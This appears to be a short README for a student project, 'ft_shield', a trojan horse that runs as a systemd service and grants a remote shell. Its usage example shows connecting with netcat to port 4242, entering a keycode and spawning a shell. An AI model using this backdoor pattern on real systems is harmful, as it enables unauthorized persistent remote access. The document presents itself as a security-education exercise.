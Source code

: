 ## Foreword
This project aims to develop a simple trojan horse program called ft_shield. It is designed as a hands-on exercise to learn about malware programming, focusing specifically on trojan horse mechanisms. The project does not intend to promote malicious activity but serves as an educational tool for understanding software security vulnerabilities.
## Usage Example
# Start the program
    $ ./ft_shield
# Verify daemon is running
    $ systemctl status ft_shield.service
# Connect to daemon
    $ nc addr_ip 4242
    Keycode: 42
    $> shell
    Spawning shell on port 4242
